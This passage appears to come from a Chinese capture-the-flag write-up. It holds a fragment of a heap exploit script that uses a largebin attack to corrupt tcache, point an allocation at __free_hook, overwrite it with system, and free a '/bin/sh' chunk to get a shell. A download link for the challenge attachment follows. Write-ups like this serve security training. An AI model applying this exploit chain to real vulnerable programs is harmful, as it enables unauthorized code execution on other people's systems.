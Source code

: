 ```plain
tcache_max_bins = libcbase + 0x1EC2D0
li('tcache_max_bins = '+hex(tcache_max_bins))
free_hook = libcbase + libc.sym['__free_hook']
system = libcbase + libc.sym['system']

pl = p64(0)*3+p64(tcache_max_bins-0x20)

edit(0,pl)

add(0x540,6,"b") #largebin attack
delete(1)
delete(2)

edit(2,p64(free_hook))

add(0x450,5,b'/bin/sh\x00')

add(0x450,6,p64(system))
#dbg()
delete(5)
```

‍

‍

![](assets/1700442753-c1a690c3008373b105f447e452f0cfec.gif)附件.zip (0.83 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231117185341-920dca34-8537-1.zip)
